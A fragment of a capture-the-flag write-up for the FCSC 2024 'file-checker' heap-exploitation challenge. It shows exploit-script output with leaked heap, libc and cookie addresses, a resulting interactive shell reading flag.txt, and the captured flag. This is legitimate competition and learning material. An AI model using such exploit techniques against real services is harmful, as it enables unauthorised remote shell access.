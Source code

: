 ## FLAG
After about ~1h with 7 concurrent exploit runs :
```
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2101: Done
[*] doing muney
[CRITICAL] heap_leak: 0xb852942ea40
[CRITICAL] heap: 0xb852942cfa0
[CRITICAL] tcache: 0xb852942cfb0
[CRITICAL] link: 0xb852942fd20
[CRITICAL] alloc_sz: 0x120
[CRITICAL] bin_target: 0xb852942d0b0
[CRITICAL] libc: 0x673915200000
[CRITICAL] cookie: 0x67391552c770
/home/skuuk/fcsc24/file-checker-src/public/exploit.py:125: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(m,**kwargs)
[*] Switching to interactive mode
1. prepare a file$ ls
file-checker
flag.txt
$ cat flag.txt
FCSC{93aa742b341b591bb4a6cad5c1b9c63ba382ec6f8dd373ca82fd7c777443fe44}
```
*Note: this lengthy runtime tends to suggest an entropy of 12 rather than 8 bits on the `puts` offset, unlike I initially assumed*
